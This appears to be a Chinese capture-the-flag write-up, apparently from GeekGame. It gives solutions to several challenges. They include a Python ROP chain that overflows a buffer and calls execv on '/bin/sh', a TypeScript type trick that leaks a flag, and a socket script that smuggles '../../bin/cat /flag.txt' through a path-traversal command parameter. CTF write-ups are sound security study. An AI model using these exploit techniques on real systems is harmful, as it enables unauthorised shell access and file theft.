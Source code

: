 ```python

data = np.array([
    POP_RDI_RET_OFFSET + offset,  # pop %rdi
    BIN_SH_OFFSET + offset,  # "/bin/sh"
    POP_RSI_RET_OFFSET + offset,  # pop %rsi
    0x000000,  # NULL
    0x401304,  # ret
    EXECV_OFFSET + offset,  # &execv
])
s.send(b'0' * 56 + data.tobytes() + b'\nexec cat /flag\n')
while True:
    buf = s.recv(8192)
    if not buf: break
    print(buf)
```



## 简单的打字稿

为了拿到 flag1，输出中又不能出现 flag，故想办法把所有的 flag 替换成 galf，再触发解释器报错即可。由于之前没有用过 Typescript，虽然代码不多，整个编码过程非常艰难。下面的代码用了非常多次替换，但得到 flag1 后才发现，出题人实际上只用了一次 flag。

```typescript
type flag2galf<str extends string> = str extends `${infer pf}flag${infer sf}` ? `${pf}galf${sf}` : str;
type galf = flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag2galf<flag1>>>>>>>>>>>>>>>>;
let g: galf = 1;
```



## 猫咪状态监视器

阅读文档，不断尝试，灵机一动，在 SCRIPT 参数中插入几个 ../ 试试：

```python
import socket

s = socket.socket()
s.connect(('prob15.geekgame.pku.edu.cn', 10015))
print(s.recv(8192))
s.send(b'<my-token-not-visible-to-otherone>\n')
print(s.recv(8192))
s.send(b'STATUS\n')
print(s.recv(8192))
s.send(b'../../bin/cat /flag.txt\n')
print(s.recv(8192))
s.send(b'EXIT\n')
print(s.recv(8192))
```

出了！
